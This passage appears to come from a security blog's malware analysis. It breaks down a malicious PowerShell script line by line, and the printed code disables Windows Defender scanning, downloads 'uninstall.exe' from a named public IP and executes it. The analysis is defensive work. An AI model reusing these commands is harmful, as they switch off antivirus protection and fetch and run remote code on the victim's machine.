 Breaking this script down a little to show how it's malicious:

1. It disables two aspects of Windows Defender.
    ```powershell
    Set-MpPreference -DisableRealtimeMonitoring $true
    Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan $true
    ```
    Disabling realtime monitoring, means that Windows Defender won't scan files as they download or executables as they run, enabling an attacker to download and run malicious files. Disabling scanning mapped network drives means that network drives won't be scanned during full system scans, giving attackers a potential hiding place for malicious files.

2. It sets up variables for the installation path, building it if it does not exist.
    ```powershell
    $Path = "$env:ProgramData\Microsoft Visual Studio"
    if (-not (Test-Path -Path $Path)) {
    New-Item -Path $Path -ItemType Directory -Force
    }
    ```

3. It sets a variable for the malware name.
    ```powershell
    $ProcName = "uninstall.exe"
    ```
    And the download URL.
    ```powershell
    $WebFile = "http://54.93.81.220:8000/$ProcName"
    ```

4. Combining the variables, the script downloads the malware, placing it at the installation path.
    ```powershell
    Invoke-WebRequest -Uri $WebFile -OutFile "$Path\$ProcName"
    ```

5. Finally, it executes the malware that it just downloaded, probably initiating a beaconing process.
    ```powershell
    Start-Process -FilePath "$Path\$ProcName"
    ```

This all appears quite malicious because it is downloading and executing an arbitrary file from an arbitrary public IP. Bad.

I checked the IP address on VirusTotal. While it's not connected with other malicious incidents, it still looks malicious. It is a public IP owned by Amazon, meaning that it could easily be an AWS instance operated by anyone, including threat actors.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0 small-margin">
        {% include figure.liquid loading="eager" path="assets/img/nuts/14.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
<div class="caption" style="margin-top: 5px;">
    Fig. 14
</div>
